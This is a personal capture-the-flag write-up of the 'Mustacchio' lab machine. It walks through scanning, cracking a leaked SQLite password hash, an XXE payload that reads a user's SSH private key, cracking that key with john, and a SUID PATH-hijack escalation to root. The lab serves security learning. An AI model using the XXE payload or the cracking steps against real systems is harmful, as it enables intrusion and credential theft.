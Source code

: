 # Mustacchio V2
Easy boot2boot machine

## Recon
### Nmap Scan
At the commencement of each CTF challenge, our initial step consistently involves conducting an nmap scan.

```
sudo nmap -sC -sV -O -T4 10.10.41.60 -vv -p- -oG all
```

![Nmap Scan](/images/nmap.PNG)

As evident from our findings, two ports, specifically port 80 and port 8765, are open and host a website.

### Gobuster Scan
Since there is a website that is being hosted, we will then run 
```
gobuster dir -t 100 --url http://10.10.41.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
``` 
as part of our scan to find any hidden directories.

While waiting for the gobuster scan to finish scanning the directories, i went to the website to find for any hints to continue with the challenge.

![Website](/images/website.PNG)

However i did not find anything that is useful to continue the challenge.

Once the Gobuster scan had completed, I returned to the terminal to review the results.

![Gobuster Scan](/images/gobuster.PNG)

This is where i traversed around the directory that was discovered by the Gobuster and found something interesting in the custom/js folder.

![custom/js folder](/images/custom.PNG)

I found the file called **"users.bak"** which immediately alarmed me that it could be an backup file that contains database information.

After downloading the file, this is where i ran 
```
file users.bak
```

![users.bak strings](/images/usersbak.PNG)

which confirms my doubt that it was a sqlite backup file.

After that i ran **"sqlitebrowser"** and drop the file inside the newly opened tab.

![SQLite](/images/SQLite.PNG)

This is where i found a username and password in hash format, so i used crackstation.net to crack the password.

![user](/images/user.PNG)

![crack](/images/crack.PNG)

### Port 8765
From the original website that is hosted at port 80, i couldn't use the login details that i have found from the previous recon so i decided to go to port 8765.

![login](/images/login.PNG)

Ohhh shit, from here i found a login page and decided to give the username and password that i have gathered during the previous recon.

![successful login](/images/successful.PNG)

It worked!

I then chose to spend some time exploring the website, during which I came across the following information.

![view source](/images/source.PNG)

At this juncture, I opted to download the file (/auth/dontforget.bak) from the website and inspect its contents, where I subsequently uncovered...

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>   
```

I made the decision to experiment with the form both by submitting it without any input and by using the input I had identified in the file.

![empty](/images/emptyinput.PNG)

![xml](/images/xmlinput.PNG)

At this point, I initiated a Google search to investigate XML vulnerabilities, which led me to discover a vulnerability known as XML External Entity (XXE) Processing.

## Exploitation
Recalling what we had discovered while examining the homepage
```
Barry, you can now SSH in using your key!
```

I decided to give the payload a try
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>  
```

![xxe](/images/xxe.PNG)

It worked!

I proceeded to copy the RSA key using the command <mark style="background-color:grey">echo [rsa_key] > barry_id_rsa</mark>. It was apparent that the key was encrypted. To decipher the password, I employed the following command
```
ssh2john barry_id_rsa > for_john
john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
```

![john cracked](/images/cracked.PNG)

Subsequently, I utilized the "id_rsa" file along with the cracked passphrase to establish an SSH connection to the target machine.

![ssh](/images/ssh.PNG)

## Privilege Escaltion
### Potential methods for privilege escalation
I initiated a series of commands to assess the system for potential vulnerabilities.
```
"id" to check if the user was part of the LXC/LXD group.
"uname -a" to examine the kernel version and assess the system for potential kernel exploits
```

### SUID for privilege escalation
When I executed the command
```
find / -perm -u=s -type f 2>/dev/null
```

I came across an intriguing file that had the capability to run as a privileged user
![suid](/images/suid.PNG)

I navigated to that directory and tried to find out what the file does.

At this point, I discovered that one of the commands within the program was not utilizing an absolute path.

![attack](/images/attack.PNG)

This reminded me of the technique mentioned in the https://tryhackme.com/room/linuxprivesc, where a similar method was discussed for privilege escalation.

### Creating payload

![payload](/images/payload.PNG)

Setting path for payload to execute

![path](/images/path.PNG)

Execute the payload

![execute](/images/root.PNG)

Viola, now you are root.

## Conclusion
This room provided me with an opportunity to apply the knowledge and skills I had been honing over the past two months, particularly in the areas of web exploitation, basic reverse engineering(strings), basic privilege escalation. With being able to pick up knowledge and skills on XML external entity (XXE) injection. Thank to zyeinn for creating the room.